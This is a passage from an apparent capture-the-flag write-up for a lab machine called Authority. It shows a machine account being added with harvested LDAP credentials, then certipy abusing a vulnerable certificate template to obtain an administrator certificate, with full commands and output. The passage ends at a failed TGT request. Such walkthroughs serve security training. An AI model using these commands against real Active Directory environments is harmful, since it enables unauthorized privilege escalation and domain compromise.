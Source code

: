 - so I added the use GRAYPC to the domain
```shell
┌──(kali㉿kali)-[~/Scripts]
└─$ impacket-addcomputer 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name 'GR4YPC' -computer-pass 'Passw0rd'
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Successfully added machine account GR4YPC$ with password Passw0rd.
```

![](assets/Authority_assets/Pasted%20image%2020230823000305.png)

- then I can run certipy to request the certificate

```shell
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ certipy req -u 'GR4YPC$@authority.htb' -p 'Passw0rd' -dc-ip 10.10.11.222 -ca 'AUTHORITY-CA' -template 'CorpVPN' -debug
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate without identification
[*] Certificate has no object SID
[*] Saved certificate and private key to 'gr4ypc.pfx'

```
- looking at the help section, I saw that I can provide an alternative UPN, and request a certificate as the user including the administrator (because of the `CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT`)

![](assets/Authority_assets/Pasted%20image%2020230822235816.png)

- so I then I provide the UPN of the administrator and then generate a certificate as the admin

```
┌──(kali㉿kali)-[~/PNPT/machines]
└─$ certipy req -u 'GR4YPC$@authority.htb' -p 'Passw0rd' -dc-ip 10.10.11.222 -ca 'AUTHORITY-CA' -template 'CorpVPN' -upn administrator@authority.htb -debug
Certipy v4.3.0 - by Oliver Lyak (ly4k)

[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.222[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 11
[*] Got certificate with UPN 'administrator@authority.htb'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'

```
- Attempting to request a TGT as the administrator using this certificate, I am met with the error below

